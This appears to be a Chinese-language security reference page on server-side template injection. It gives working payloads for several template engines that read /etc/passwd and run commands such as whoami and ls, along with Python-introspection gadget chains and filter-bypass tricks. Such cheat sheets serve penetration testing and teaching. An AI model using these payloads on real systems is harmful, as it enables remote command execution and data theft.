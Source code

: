 模版注入
========================================

简介
----------------------------------------
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法
----------------------------------------
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试用例
----------------------------------------
- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Ruby
    - ``<%= 7 * 7 %>``
    - ``<%= File.open('/etc/passwd').read %>``
- Java
    - ``${7*7}``
- Twig
    - ``{{7*7}}``
- Smarty
    - ``{php}echo `id`;{/php}``
- AngularJS
    - ``$eval('1+1')``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[-1].__subclasses__()}}``
	- 示例
		+ {{%22%22.__class__.__mro__[-1].__subclasses__()[183].__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27whoami%27).read()%22)}}
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标
----------------------------------------
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

相关属性
----------------------------------------

``__class__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中的新式类（即显示继承object对象的类）都有一个属性 ``__class__`` 用于获取当前实例对应的类，例如 ``"".__class__`` 就可以获取到字符串实例对应的类

``__mro__`` 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中类对象的 ``__mro__`` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

``__globals__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
保存了函数所有的所有全局变量，在利用中，可以使用 ``__init__`` 获取对象的函数，并通过 ``__globals__`` 获取 ``file`` ``os`` 等模块以进行下一步的利用

``__subclasses__()``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python的新式类都保留了它所有的子类的引用，``__subclasses__()`` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 ``__subclasses__()`` 方法就可以获取想要的类的对象。

常见Payload
----------------------------------------
- ``().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()``
- ``().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )``
- ``''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')``
- ``''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").popen("ls").read()')``

绕过技巧
----------------------------------------

字符串拼接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]``

使用参数绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    params = {
        'clas': '__class__',
        'mr': '__mro__',
        'subc': '__subclasses__'
    }
    data = {
        "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
    }
    r = requests.post(url, params=params, data=data)
    print(r.text)

参考链接
----------------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `用Python特性任意代码执行 <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_

